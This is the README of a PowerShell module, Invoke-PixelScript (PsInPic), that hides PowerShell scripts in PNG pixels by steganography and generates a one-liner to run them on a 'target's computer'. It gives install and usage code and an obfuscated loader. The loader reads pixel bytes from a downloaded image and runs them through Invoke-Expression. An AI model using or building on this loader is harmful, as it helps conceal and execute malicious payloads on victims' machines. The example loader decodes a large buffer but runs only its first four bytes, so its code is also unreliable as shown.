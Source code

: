 
# Invoke-PixelScript

Invoke-PixelScript is a PowerShell module designed to embed PowerShell scripts within the pixels of an image file (PNG). This module provides a way to execute hidden scripts from these images, effectively using steganography to conceal and transport PowerShell scripts.

## Features

- **Embed Scripts in Images**: Hide PowerShell scripts in the least significant bits of image pixels.
- **Execute from Image**: Generate a one-liner to execute the embedded script directly from the image.

## Prerequisites

Before you begin using Invoke-PixelScript, ensure you have PowerShell installed on your system. This module also requires the .NET System.Drawing assembly, typically available by default in Windows environments. 

## Installation

```powershell
# Install the module
Install-Module PsInPic

# Import the module
Import-Module PsInPic
```

## Usage

### Embedding a Script into an Image

To embed a PowerShell script into an image, you can use the `Invoke-PixelScript` function.

```
PARAMETERS

$Script   - path to .ps1 script you want to embed 
$Image    - path to the image you plan to use
$Out      - path to the output file
$ExecPath - path to where you anticipate running the script from the targets computer 
            (can be altered whenever and will default to $Out if nothing is provided)
```

```powershell
# Embed a script into an existing image and save the output
$payload = Invoke-PixelScript -Script "C:\path\to\script.ps1" -Image "C:\path\to\image.png" -Out "C:\path\to\output.png" -ExecPath "C:\path\to\output.png"
```

### Generating the Execution Command

After embedding, the function returns a PowerShell one-liner that you can use to execute the script directly from the image:

```powershell
# Execute the embedded script from the image
Invoke-Expression $payload
```

### EXAMPLE

If you right click and save this image to your downloads folder and then run that powershell code below it you will open the calculator
(smaller the image the faster it is)

<img src="https://github.com/Unit-259/PsInPic/blob/main/out.png" width="400" alt="Description of Image">

```powershell
sal a New-Object;Add-Type -A System.Drawing;
$g=a System.Drawing.Bitmap("$env:userprofile\downloads\out.png");
$o=a Byte[] 7001382;
(0..2821)|%{
foreach($x in 0..2480) {
$p=$g.GetPixel($x, $_);
$o[$_*2481+$x]=[math]::Floor(($p.R -band 0x0F)*16) + ($p.G -band 0x0F);
}
};
$g.Dispose();
IEX([System.Text.Encoding]::ASCII.GetString($o[0..3]))
```

## Contributing

Contributions to the Invoke-PixelScript project are welcome! Please feel free to fork the repository, make your changes, and submit a pull request.

